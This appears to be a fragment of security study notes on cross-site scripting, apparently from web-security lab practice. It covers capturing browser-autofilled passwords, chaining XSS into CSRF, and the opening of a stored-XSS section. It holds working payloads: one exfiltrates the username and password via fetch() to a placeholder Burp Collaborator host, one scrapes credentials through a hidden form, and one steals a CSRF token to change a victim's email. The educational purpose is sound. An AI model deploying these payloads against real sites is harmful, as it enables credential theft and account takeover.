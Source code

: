 #### Capturing Passwords

* This attack abuses password auto-fill by stealing the passwords that get automatically written into 'password' boxes

* ```html
  <input name=username id=username>
  <input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
  });"> 
  ```

* Alternatively we can even user a timer

* ```html
  <script>
      function x() {
          document.getElementById('creds').innerHTML = document.getElementById('username').value+':'+document.getElementById('password').value;
      }
  
      function timer() {
          setTimeout(x, 1000);
      }
  </script>
  <body onload="timer()">
      <h1 id="creds"></h1>
      <form id="" method="POST" style="visibility: hidden; position: absolute; top: -1000; left: 1000;">
          Username: <input type="text" name="username" id="username" /><br />
          Password: <input type="password" name="password" id="password" /><br />
          <input type="submit" value="gö" />
      </form>
  </body>
  ```

#### XSS for CSRF

* ```html
  <script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get','/my-account',true);
  req.send();
  function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open('post', '/my-account/change-email', true);
      changeReq.send('csrf='+token+'&email=test@test.com')
  };
  </script> 
  ```

* 

### Stored XSS

* Where the malicious script comes from the website's database
* How to find and test for stored XSS
  * Test all relevant entry points - parameters in query string and message body, URL file path, HTTP request headers, and out-of-band
  * Locate links between entry and exit points
  ```